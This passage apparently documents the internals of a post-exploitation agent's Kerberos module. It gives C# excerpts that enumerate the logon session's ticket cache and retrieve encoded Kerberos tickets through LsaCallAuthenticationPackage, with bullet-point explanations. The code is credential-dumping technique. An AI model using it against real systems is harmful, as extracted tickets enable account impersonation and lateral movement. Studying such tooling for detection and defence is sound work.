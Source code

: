 #### 4. Ticket Cache Enumeration
```csharp
// From KerberosHelpers.cs - GetTicketCache method
private static IEnumerable<KerberosTicket> GetTicketCache(HANDLE lsaHandle, uint authPackage, LUID logonId)
{
    LUID UsedlogonId = logonId;
    if (Agent.GetIdentityManager().GetIntegrityLevel() <= IntegrityLevel.MediumIntegrity)
    {
        UsedlogonId = new LUID();
    }

    KERB_QUERY_TKT_CACHE_REQUEST request = new()
    {
        MessageType = KERB_PROTOCOL_MESSAGE_TYPE.KerbQueryTicketCacheExMessage,
        LogonId = UsedlogonId
    };

    var status = WindowsAPI.LsaCallAuthenticationPackageDelegate(lsaHandle, authPackage, requestHandle, Marshal.SizeOf(request), out HANDLE returnBuffer, out uint returnLength, out NTSTATUS returnStatus);
    createdArtifacts.Add(Artifact.WindowsAPIInvoke("LsaCallAuthenticationPackage"));
}
```
- Creates `KERB_QUERY_TKT_CACHE_REQUEST` structure
- Uses current session LUID for non-elevated contexts
- Calls `LsaCallAuthenticationPackage` to enumerate tickets
- Processes returned ticket information

#### 5. Ticket Retrieval Process
```csharp
// From ExtractTicket method
KERB_RETRIEVE_TKT_REQUEST request = new()
{
    MessageType = KERB_PROTOCOL_MESSAGE_TYPE.KerbRetrieveEncodedTicketMessage,
    LogonId = targetLuid,
    TargetName = new(ticket.ServerName),
    TicketFlags = 0,
    CacheOptions = KerbCacheOptions.KERB_RETRIEVE_TICKET_AS_KERB_CRED,
    EncryptionType = 0
};

var requestSize = Marshal.SizeOf<KERB_RETRIEVE_TKT_REQUEST>();
var targetNameSize = request.TargetName.MaximumLength;
var requestPlusNameSize = requestSize + targetNameSize;
HANDLE requestAndNameHandle = new(Marshal.AllocHGlobal(requestPlusNameSize));

Marshal.StructureToPtr(request, requestAndNameHandle, false);
HANDLE requestEndAddress = new(new(requestAndNameHandle.PtrLocation.ToInt64() + requestSize));
WindowsAPI.RtlMoveMemoryDelegate(requestEndAddress, request.TargetName.Buffer, targetNameSize);
createdArtifacts.Add(Artifact.WindowsAPIInvoke("RtlMoveMemory"));

Marshal.WriteIntPtr(requestAndNameHandle, IntPtr.Size == 8 ? 24 : 16, requestEndAddress);
```
- Creates `KERB_RETRIEVE_TKT_REQUEST` for specific ticket retrieval
- Allocates memory for request structure and target name
- Uses `RtlMoveMemory` to copy target name data
- Updates structure pointers for proper memory layout
